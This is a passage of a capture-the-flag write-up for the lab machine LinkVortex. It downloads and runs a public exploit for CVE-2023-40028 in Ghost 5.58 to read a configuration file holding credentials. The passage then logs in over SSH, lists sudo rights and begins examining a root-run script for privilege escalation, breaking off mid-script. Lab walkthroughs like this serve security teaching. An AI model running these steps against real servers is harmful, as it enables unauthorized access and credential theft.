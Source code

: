 We check for known vulnerabilities in `Ghost 5.58` (as detected by Wappalyzer). One valid vulnerability is [CVE-2023-40028](https://github.com/0xyassine/CVE-2023-40028/blob/master/CVE-2023-40028.sh), which allows arbitrary file reads.

Download the exploit.

```
wget https://raw.githubusercontent.com/0xyassine/CVE-2023-40028/refs/heads/master/CVE-2023-40028.sh
```

And change the url to `the machine's domain`

```
GHOST_URL='http://linkvortex.htb'
```

Execute the exploit using the credentials we found. Let's try to read the file we discovered in the dockerfile: `/var/lib/ghost/config.production.json`.

```
./CVE-2023-40028.sh -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45'

file> /var/lib/ghost/config.production.json

...
"auth": {
    "user": "bob@linkvortex.htb",
    "pass": "fibber-talented-worth"
}
....
```

We now have SSH credentials for the user bob. Let’s try logging in:

```
ssh bob@linkvortex.htb
bob@linkvortex.htb's password: fibber-talented-worth
```

We're in the target machine as user `bob`. Let's check available `sudo` permissions:

```
sudo -l

Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

We can run `/opt/ghost/clean_symlink.sh` as root, and the environment variable `CHECK_CONTENT` is preserved. Let's take a look to the script.

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

```